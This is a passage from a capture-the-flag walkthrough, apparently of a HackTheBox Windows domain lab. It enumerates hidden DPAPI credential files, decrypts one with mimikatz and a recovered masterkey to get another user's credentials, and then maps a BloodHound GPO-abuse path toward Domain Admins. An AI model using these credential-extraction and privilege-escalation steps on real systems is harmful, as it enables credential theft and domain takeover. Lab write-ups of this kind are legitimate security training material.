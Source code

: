 Now let enumerate for protected credentials files, you can use this [article](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) to learn about hunting it


```
dir /a:h C:\Users\ppotts\AppData\Roaming\Microsoft\Credentials\
```


![](https://i.imgur.com/RRuO2G1.png)


As we can see the `giudMasterKey` for the `84F1CAEEBF466550F4967858F9353FB4` protected file matches the one we found earlier in the Dpapi cache

```
mimikatz # dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4                                                               
```


![](https://i.imgur.com/Z56HRO5.png)


Now use it to get `HHogan` creds


```
dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
```


![](https://i.imgur.com/vS2IDqW.png)



> Note that if you get an empty `CredentialBlob:`, probably on another engagements and there are multiple **vault credentials**, also run this same steps on the others, as there might be stored credentials there


We can then login as user `hhogan` with the credential gotten


![](https://i.imgur.com/IZ0Q5MI.png)


Navigating to bloodhound we can see that user `hhogan` belongs to the **GPO MANAGERS** group and every member of this group has **`GenericWrite`** to the **"DEFAULT DOMAIN CONTROLLERS POLICY"** AND **"DEFAULT DOMAIN POLICY"** Group Policy Objects


![](https://i.imgur.com/8h4O9e1.png)


Checking the "**Find Shortest Paths to Domain Admins**" node, we can see that the **"DEFAULT DOMAIN POLICY"** GPO is linked to the **OFFICE.HTB** domain and in this domain belongs to the **USERS** container, this same **USERS** container also contains the **DOMAIN ADMINS** group 
